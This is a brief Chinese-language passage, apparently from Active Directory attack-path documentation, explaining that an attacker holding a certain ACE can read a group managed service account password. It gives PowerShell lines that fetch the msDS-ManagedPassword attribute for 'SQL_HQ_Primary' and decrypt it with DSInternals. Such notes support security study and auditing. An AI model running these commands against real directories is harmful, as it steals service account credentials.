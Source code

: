 	攻击者可以读取此 ACE 应用到的帐户的 GMSA 密码。这可以通过 Active Directory 和 DSInternals PowerShell 模块来实现。

	$gmsa = Get-ADServiceAccount -Identity 'SQL_HQ_Primary' -Properties 'msDS-ManagedPassword'
	$mp = $gmsa.'msDS-ManagedPassword'

	解密
	ConvertFrom-ADManagedPasswordBlob $mp